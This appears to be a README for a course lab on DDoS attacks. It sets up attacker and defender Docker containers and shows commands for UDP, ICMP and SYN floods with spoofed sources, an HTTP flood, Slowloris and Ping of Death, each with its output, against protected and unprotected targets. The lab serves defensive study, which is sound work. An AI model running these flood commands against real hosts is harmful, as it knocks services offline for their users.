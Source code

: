 # HSA L14: DDoS Attacks
Try to implement protection on Defender container
Launch attacker scripts and examine you protection

## Overview
1. Attacker Container - contains scripts that will implement 6 attacks (UDP flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death).
1. Defender container with protection.
1. Defender container without protection.

## Getting Started

### Preparation
1. Run the docker containers.
```bash
  docker-compose up -d
```

Be sure to use ```docker-compose down -v``` to clean up after you're done with tests.

2. Run the attacker container.
```bash
docker-compose run attacker bash
```

## Test scenarios

### UDP flood
#### Without DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8080 defender-0

--- defender-0 hping statistic ---
2916410 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8081 defender-1

--- defender-1 hping statistic ---
2785135 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### ICMP flood
#### Without DDoS protection:
```bash
$ hping defender-0 -c 1000 -d 128 -n -p 8080 --icmp --flood --rand-source

--- defender-0 hping statistic ---
1048299 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping defender-1 -c 1000 -d 128 -n -p 8081 --icmp --flood --rand-source

--- defender-1 hping statistic ---
893003 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### HTTP flood
#### Without DDoS protection:
```bash
$ siege -b -c 500 -t 1m defender-0

$ curl -XGET localhost:8080
curl: (52) Empty reply from server
```
#### With DDoS protection:
```bash
siege -b -c 500 -t 1m defender-1

Transactions:		         643 hits
Availability:		        9.60 %
Elapsed time:		       40.56 secs
Data transferred:	        6.61 MB
Response time:		       16.18 secs
Transaction rate:	       15.85 trans/sec
Throughput:		        0.16 MB/sec
Concurrency:		      256.58
Successful transactions:         643
Failed transactions:	        6052
Longest transaction:	       24.49
Shortest transaction:	        0.00
```

### Slowloris
#### Without DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-0 -x 24 -p 3
Slow HTTP test status:

initializing:        0
pending:             0
connected:           10
error:               0
closed:              250
service available:   NO

$ curl -XGET localhost:8080
curl: (52) Empty reply from server
```
#### With DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-1 -x 24 -p 3
Slow HTTP test status:
initializing:        0
pending:             0
connected:           162
error:               0
closed:              838
service available:   YES

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### SYN flood
#### Without DDoS protection:
```bash
$ hping defender-0 -p 8080 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-0 hping statistic ---
2741951 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping defender-1 -p 8081 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-1 hping statistic ---
2002331 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### Ping of Death
#### Without DDoS protection:
```bash
$ ping 172.16.238.20 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
117 packets transmitted, 0 received, 100% packet loss, time 118789ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ ping 172.16.238.30 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
200 packets transmitted, 0 received, 100% packet loss, time 162399ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```
